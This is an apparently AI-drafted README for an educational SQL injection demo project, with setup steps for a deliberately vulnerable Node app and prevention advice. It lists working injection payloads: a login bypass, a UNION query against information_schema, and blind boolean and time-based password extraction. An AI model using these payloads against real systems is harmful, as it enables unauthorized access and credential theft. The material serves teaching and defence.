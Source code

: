 # SQL Injection Demonstration Project

![SQL Injection](https://img.shields.io/badge/Demo-SQL%20Injection-red) ![Educational](https://img.shields.io/badge/Purpose-Educational-blue)

This repository demonstrates SQL injection vulnerabilities in web applications.  
Originally forked from [sakshamchoudhary/sql](https://github.com/sakshamchoudhary/sql), it serves as an **educational resource** for understanding and preventing SQL injection attacks.

---

## 🚀 Quick Start

### 1. Clone the repository
```bash
git clone https://github.com/your-username/sql-injection-demo.git
cd sql-injection-demo
2. Install dependencies
bash
Copy
Edit
npm install
3. Set up MySQL database
bash
Copy
Edit
mysql -u root -p < database/schema.sql
4. Configure database credentials
Edit the file:

arduino
Copy
Edit
config/database.js
5. Run the vulnerable application
bash
Copy
Edit
node app.js
🔗 Access the app at:
http://localhost:3000

💉 SQL Injection Examples
🔓 Basic Login Bypass
vbnet
Copy
Edit
Username: admin' --
Password: [anything]
🕵️ Database Information Leakage
sql
Copy
Edit
' UNION SELECT 1,table_name,column_name FROM information_schema.columns --
🤫 Blind Boolean-Based Injection
sql
Copy
Edit
admin' AND SUBSTRING((SELECT password FROM users LIMIT 1),1,1)='a' --
⏳ Time-Based Injection
sql
Copy
Edit
admin' AND IF(SUBSTRING(password,1,1)='a',SLEEP(5),0) --
🛡️ Prevention Methods
✅ Parameterized Queries
javascript
Copy
Edit
db.query('SELECT * FROM users WHERE id = ?', [userId]);
✅ ORM Usage
javascript
Copy
Edit
User.findOne({ where: { username: inputUsername } });
✅ Input Validation
javascript
Copy
Edit
if (!/^[\w-]{3,20}$/.test(input)) {
    throw new Error('Invalid input');
}
✅ Principle of Least Privilege
Use database accounts with minimal required permissions.

✅ Web Application Firewall (WAF)
Deploy a WAF to monitor and block malicious inputs.

⚠️ Responsible Disclosure
Warning:
This project is intended strictly for educational purposes only.
Never test these techniques on systems you do not own or have explicit permission to test.
Unauthorized access or testing is illegal and unethical.

📝 License
This project is licensed under the MIT License.
See the LICENSE file for more details.

yaml
Copy
Edit

---

✅ **Now copy the full block above and paste it into your `README.md` file**.  
Let me know if you'd also like a `schema.sql` or `app.js` sample for the vulnerable app.
